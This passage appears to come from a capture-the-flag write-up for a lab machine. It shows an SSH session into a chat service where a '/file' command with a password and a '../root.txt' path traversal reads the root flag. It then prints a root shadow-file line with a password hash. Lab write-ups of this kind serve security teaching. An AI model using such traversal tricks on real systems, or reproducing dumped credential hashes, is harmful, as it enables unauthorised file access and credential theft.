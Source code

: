 ```python
catherine@devzat:/tmp$ ssh -l test localhost -p 8443
The authenticity of host '[localhost]:8443 ([127.0.0.1]:8443)' can't be established.
ED25519 key fingerprint is SHA256:liAkhV56PrAa5ORjJC5MU4YSl8kfNXp+QuljetKw0XU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:8443' (ED25519) to the list of known hosts.
Welcome to the chat. There are no more users
devbot: test has joined the chat

test: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!

test: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] 23f0cca3d9177c8914df938656cf80f6
```

As you can see, it gave me an error, but disclosed the path, I’d have to traverse one directory back to read the flag.

`root:$6$DKdyL4hqyhhxcRyc$8N.1K/dHPqLb7VSB0IvfB.uhIKsH7IeGP/iyTRSYImFiAawsaUOKs/TWe0DCp5wSscYvi.XjX8JPe6lZNnEmH/:18891:0:99999:7:::`
